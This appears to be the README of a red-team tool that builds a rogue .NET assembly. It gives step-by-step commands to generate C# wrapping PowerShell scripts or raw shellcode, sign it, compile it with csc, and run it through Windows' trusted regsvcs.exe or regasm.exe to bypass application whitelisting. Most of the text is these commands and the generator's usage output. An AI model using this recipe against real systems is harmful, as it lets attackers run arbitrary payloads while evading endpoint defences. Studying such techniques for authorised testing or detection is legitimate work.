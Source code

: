 ## Rogue .NET Assembly for Regsvcs/Regasm Code Execution

Follow below described steps to properly generate your source code and then compile it to a .NET Assembly valid for Regasm/Regsvcs:

### Step 1: Generate key.snk file

```
powershell -file build.ps1
```

### Step 2: Generate source code file

Included in this directory script is a helper utility allowing one to quickly generate desired csharp source code file to be used for further `csc` compilation.

Usage:

```
python3 generateRegsvcs.py --help

        :: Regsvcs Code Execution Source code generation utility
        To be used during Red-Team assignments to launch Powershell/Shellcode payloads via Regsvcs/Regasm.
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

usage: .\generateRegsvcs.py [options] <inputFile>

positional arguments:
  inputFile   Input file to be embeded within C# code. May be either Powershell script, raw binary Shellcode or .NET Assembly (PE/EXE) file.

optional arguments:
  -h, --help  show this help message and exit
  -e, --exe   Specified input file is an Mono/.Net assembly PE/EXE. WARNING: Launching EXE is currently possible ONLY WITH MONO/.NET assembly EXE/DLL files, not an ordinary native PE/EXE!
  -r, --raw   Specified input file is a raw Shellcode to be injected in self process in a separate Thread.
```

Sample use case:

```
python3 generateRegsvcs.py -r notepad64.bin > program.cs

        :: Regsvcs Code Execution Source code generation utility
        To be used during Red-Team assignments to launch Powershell/Shellcode payloads via Regsvcs/Regasm.
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

[?] File specified as raw Shellcode.

```

```
python3 generateRegsvcs.py -r payload.bin > program.cs
```

###  Step 3: Compilate library .NET Assembly

```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regsvcs.dll /keyfile:key.snk program.cs
```
 
If you passed Powershell code to be launched in a .NET Runspace, then an additional assembly will have to be used to compile resulting source code properly - meaning System.Management.Automation.dll (provided with this script). Then proper compilation command will be:

```
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.Management.Automation.dll /target:library /out:regsvcs.dll /keyfile:key.snk program.cs
```


### Step 4: Code execution via Regsvcs or Regasm:

```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe regsvcs.dll
```
   or
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe regsvcs.dll
```
   or
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U regsvcs.dll 
```
   or
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U regsvcs.dll
```
